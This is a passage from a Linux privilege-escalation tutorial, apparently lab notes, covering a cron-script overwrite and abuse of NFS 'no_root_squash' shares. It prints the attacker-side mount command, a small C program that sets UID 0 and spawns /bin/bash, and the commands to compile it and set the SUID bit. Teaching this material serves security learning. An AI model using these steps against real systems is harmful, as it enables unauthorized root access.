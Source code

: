     After appending the bash command to the overwrite.sh script, we will need towait for a few minutes for the cron job to be invoked.

### NFS[​](broken-reference) <a href="#nfs" id="nfs"></a>

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

The critical element for this privilege escalation vector is the “no\_root\_squash” option. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no\_root\_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

We will start by enumerating mountable shares from our attacking machine.

We will mount one of the “no\_root\_squash” shares to our attacking machine and start building our executable.

```
mkdir /tmp/backupsonattackermachine
sudo mount -o rw <IP-DEST>:/backups /tmp/backupsonattackermachine
```

As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.

```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Once we compile the code we will set the SUID bit.

```
gcc nfs.c -o nfs -w
chmod +s nfs
ls -l nfs
```

You will see that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them). Notice the nfs executable has the SUID bit set on the target system and runs with root privileges.
